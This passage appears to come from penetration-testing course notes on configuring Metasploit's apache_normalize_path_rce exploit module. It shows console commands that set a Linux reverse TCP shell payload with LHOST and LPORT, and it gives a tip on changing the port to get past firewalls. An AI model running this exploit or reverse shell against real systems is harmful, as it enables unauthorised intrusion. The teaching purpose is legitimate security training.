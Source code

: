 ```
   VHOST                       no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```
+ It is similar to the options available for the auxiliary modules from the previous section

However, for exploit modules, there is an additional option section named _Payload options_
+ If we don't set this, the module will select a default payload
+ The default payload may not be what we want or expect, so it's always better to set our options explicitly to maintain tight control of the exploitation process

We'll cover different payloads in the next Learning Unit, but for now we set it to a regular TCP reverse shell
+ We can select a payload with **set payload** and the payload name, in our case _payload/linux/x64/shell_reverse_tcp_
+ In addition, we enter the IP address of our Kali machine for **LHOST**:
```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload payload/linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

...
```
+ The output shows that the entered payload is now active for the exploit module
+ There are two options for this payload named _LHOST_ (the local host IP address or interface) and _LPORT_ (the local port), which are used for the reverse shell to connect to

By default, most exploit modules use the port 4444 in the _LPORT_ payload option
+ Depending on our machine's configuration, Metasploit may already set the _LHOST_ value for us
+ We should always double-check this value, especially if our machine contains multiple interfaces, because Metasploit may reference the wrong interface to set this value
+ **NOTE**: In real penetration tests we may face the situation that port 4444 is blocked by firewalls or other security technologies. This is quite common as it is the default port for Metasploit's modules. In situations like this, changing the port number to ports associated with more commonly used protocols such as HTTP or HTTPS may lead to a successful execution of the selected payload
